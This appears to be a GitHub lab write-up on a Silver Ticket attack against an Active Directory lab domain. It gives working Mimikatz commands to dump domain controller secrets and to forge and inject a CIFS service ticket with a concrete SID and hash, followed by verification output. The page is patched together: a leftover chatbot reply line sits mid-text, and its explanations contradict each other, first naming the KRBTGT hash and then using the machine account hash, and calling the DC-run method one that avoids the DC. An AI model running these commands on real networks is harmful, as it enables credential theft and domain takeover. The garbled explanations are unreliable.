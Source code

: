 ![image](https://github.com/user-attachments/assets/d2a231b0-125c-4bad-8d37-4243855fa52c)

![image](https://github.com/user-attachments/assets/373433d6-a708-4164-bb02-b08259f5733e)

![image](https://github.com/user-attachments/assets/24992ac6-93c5-4cdc-9d21-328902213012)

## Attack Execution

To access the Domain Controller machine account, the attacker uses the `mimikatz` `lsadump` command to retrieve all secrets in the domain, running with domain admin privileges.

### Using Mimikatz to Perform the Attack

1. **Dump Secrets with Mimikatz**:
    ```powershell
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
    ```

By dumping the secrets with Mimikatz, the attacker can retrieve the necessary credentials to forge Silver Tickets and gain unauthorized access to specific services within the domain.

This method is particularly stealthy as it does not interact with the Domain Controller directly, making detection much more difficult.

Certainly! Here's the content rewritten in a more organized and readable format for GitHub:

```markdown
# Executing Silver Ticket Attack Using Mimikatz

## Get KRBTGT Hash from Domain Controller (DC)
To execute Mimikatz on DC as Domain Admin (DA) to get the KRBTGT hash:
```powershell
PS C:\Windows\system32> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -computer dcorp-dc
```

## Access Shares on the DC
Using the hash of the Domain Controller computer account, the below command provides access to shares on the DC.
```powershell
PS C:\Windows\system32> Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:cifs /rc4:82e90bd6e666bc654e50fcbd98e65423 /user:Administrator /ptt"'
```

## Verification
To verify, use the following commands:
```powershell
PS C:\AD\Tools> klist

#0>     Client: Administrator @ dollarcorp.moneycorp.local
        Server: cifs/dcorp-dc.dollarcorp.moneycorp.local @ dollarcorp.moneycorp.local

PS C:\AD\Tools> ls //dcorp-dc.dollarcorp.moneycorp.local\c$
```
